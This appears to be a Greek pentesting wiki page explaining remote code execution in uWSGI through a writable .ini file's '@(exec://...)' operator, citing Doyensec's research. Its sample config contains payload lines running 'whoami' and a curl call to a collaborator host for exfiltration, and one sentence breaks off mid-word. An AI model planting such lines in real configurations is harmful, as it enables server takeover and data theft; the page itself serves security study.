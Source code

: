 ![https://twitter.com/ptswarm/status/1555184661751648256/photo/1](<../../.gitbook/assets/image (1047).png>)

## **Εκτέλεση Κώδικα μέσω uWSGI RCE**

Για μια λεπτομερή εξερεύνηση αυτής της ευπάθειας ελέγξτε την αρχική έρευνα: [Εκμετάλλευση RCE στο uWSGI](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Οι ευπάθειες Εκτέλεσης Απομακρυσμένων Εντολών (RCE) μπορούν να εκμεταλλευτούνται σε διακομιστές uWSGI αν κάποιος έχει τη δυνατότητα να τροποποιήσει το αρχείο ρύθμισης `.ini`. Τα αρχεία ρύθμισης uWSGI χρησιμοποιούν μια συγκεκριμένη σύνταξη για να ενσωματώσουν "μαγικές" μεταβλητές, συμβολοσειρές και τελεστές. Ειδικότερα, ο τελεστής '@', που χρησιμοποιείται ως `@(αρχείο)`, σχεδιάστηκε για να συμπεριλάβει τα περιεχόμενα ενός αρχείου. Ανάμεσα στις διάφορες υποστηριζόμενες σχήματα στο uWSGI, το σχήμα "exec" είναι ιδιαίτερα ισχυρό, επιτρέποντας την ανάγνωση δεδομένων από την τυπική έξοδο ενός διεργασίας. Αυτό το χαρακτηριστικό μπορεί να χρησιμοποιηθεί για κ
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
Η εκτέλεση του payload συμβαίνει κατά την ανάλυση του αρχείου ρυθμίσεων. Για να ενεργοποιηθεί και να αναλυθεί η ρύθμιση, η διαδικασία uWSGI πρέπει είτε να επανεκκινηθεί (ενδεχομένως μετά από κάποιο σφάλμα ή λόγω επίθεσης DoS) είτε το αρχείο πρέπει να οριστεί για αυτόματη επαναφόρτωση. Η λειτουργία αυτόματης επαναφόρτωσης, εάν είναι ενεργοποιημένη, επαναφορτώνει το αρχείο σε καθορισμένα χρονικά διαστήματα κατά την ανίχνευση αλλαγών.
